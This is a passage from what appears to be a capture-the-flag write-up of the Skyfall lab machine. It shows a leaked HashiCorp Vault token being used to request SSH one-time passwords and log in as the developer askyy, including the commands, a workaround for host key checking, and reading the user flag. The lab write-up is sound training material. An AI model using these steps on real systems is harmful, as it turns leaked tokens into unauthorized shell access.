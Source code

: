 This output shows that this token has `create`, `read`, and `update` capabilities on `ssh/creds/dev_otp_key_role`.

#### SSH

Knowing that this token can access `dev_otp_key_role`, and with a list of usernames from MinIO, I’ll start trying to log in over SSH with `vault`. askyy is the lead developer who had this token in their `.bashrc`, so I’ll try them first:

```

oxdf@hacky$ vault ssh -role dev_otp_key_role -mode otp askyy@skyfall.htb
failed to run ssh command: exit status 6

```

`vault ssh` requires a mode, and given the term “otp” in the role name, I’ll go with that. The binary here is making a request to the API (`/v1/ssh/creds/dev_otp_key_role`) and using the password it gets back with `sshpass` to try to connect. It still may fail.

Exit status 6, which the `sshpass` [man page](https://linux.die.net/man/1/sshpass) says:

> As with any other program, sshpass returns 0 on success. In case of failure, the following return codes are used:
>
> 1. Invalid command line argument
> 2. Conflicting arguments given
> 3. General runtime error
> 4. Unrecognized response from ssh (parse error)
> 5. Invalid/incorrect password
> 6. Host public key is unknown. sshpass exits without confirming the new key.

It’s a public key issue! If I add in `--strict-host-key-checking=no`, it works:

```

oxdf@hacky$ vault ssh --role dev_otp_key_role --mode otp --strict-host-key-checking=no askyy@skyfall.htb
Warning: Permanently added 'skyfall.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...[snip]...
askyy@skyfall:~$

```

Alternatively, if I ever connect to this SSH and accept the key (even without the right password), it’ll also work.

And I can grab `user.txt`:

```

askyy@skyfall:~$ cat user.txt
ee11cbb1************************

```
